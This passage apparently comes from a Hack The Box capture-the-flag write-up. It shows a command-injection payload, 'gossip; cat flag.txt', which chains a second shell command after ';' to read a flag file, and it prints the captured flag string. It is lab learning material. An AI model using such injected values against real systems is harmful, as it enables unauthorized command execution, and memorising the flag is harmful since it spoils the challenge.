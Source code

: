 ovserving the functions, at the bottom it indicates use ; to `inject commands`.

![alt text](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2025/image-1.png)

Using the command gossip, I can list the files, and with a simple ; I can read the flag

```bash
gossip; cat flag.txt
```
Get the flag. 🎉
HTB{Sh4d0w_3x3cut10n_1n_Th3_M00nb34m_T4v3rn_78cb9b70be3bf077e608865b967b5ab1}

this was very straightforward challenge.

# Trial by Fire
